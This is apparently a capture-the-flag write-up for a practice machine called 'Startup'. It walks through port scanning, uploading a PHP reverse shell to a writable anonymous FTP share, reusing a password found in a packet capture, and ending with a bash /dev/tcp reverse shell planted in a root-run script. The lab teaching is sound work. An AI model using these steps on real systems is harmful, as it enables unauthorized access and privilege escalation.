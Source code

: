 # Startup

I will start with a nmap scan:

```bash
nmap -sC -sV 10.10.107.18                  

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-04 15:17 EST
Nmap scan report for 10.10.107.18
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.65.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

First of all we see that in the ftp server allows Anonymous login and that there are 2 file in it.

I will start with that:

```bash
ftp 10.10.107.18                                                           

Connected to 10.10.107.18.
220 (vsFTPd 3.0.3)
Name (10.10.107.18:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56482|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

```bash
cat notice.txt                

Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

We now have a name, Maya.

The site doesn’t tell us much:

![Untitled](Startup%2009519d3a5bfc4be5bd4c3ca84ece9361/Untitled.png)

So I started a directory fuzzer:

```bash
ffuf -u http://10.10.107.18/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.107.18/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 59ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2807ms]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 172ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 66ms]
:: Progress: [20469/20469] :: Job [1/1] :: 357 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```

I discovered the files directory which is the ftp share:

Maybe we can upload a php revshell with ftp.

We have write access in the ftp folder:

```bash

ftp> cd ftp
250 Directory successfully changed.
ftp> put php.php
local: php.php remote: php.php
229 Entering Extended Passive Mode (|||40969|)
150 Ok to send data.
100% |***************************************************************************************************|  3461       70.22 MiB/s    00:00 ETA
226 Transfer complete.
3461 bytes sent in 00:00 (6.92 KiB/s)
ftp>
```

I uploaded my pentester monkey php reverse shell

 

```bash
nc -lvnp 4444                                                                                                 

listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.107.18] 40798
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:52:55 up 37 min,  0 users,  load average: 0.00, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

And we got a shell!

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn ("/bin/bash")'      
www-data@startup:/$
```

I also spawned a nicer shell with the help of python.

apart from the recipe, in the home directory there are also a vagrant directory, which appears to be a home directory, and an incidents directory:

```bash
ls

bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```

In the incidents there is a pcapng file which we can read with wireshark, I downloaded the file uploading it in the ftp directory:

```bash
cp suspicious.pcapng /var/www/html/files/ftp
```

From here I looked up the traffic and found out that lennie, tried to login with his credentials with the www-data account:

```bash
Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

So I tried logging in and it worked:

```bash
www-data@startup:/incidents$ su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/incidents$
```

I then grabbed the user flag, and discovered a file in the etc folder that I owned that it was executed from root, I edited it with this and got a root shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.11.65.91/5555 0>&1
```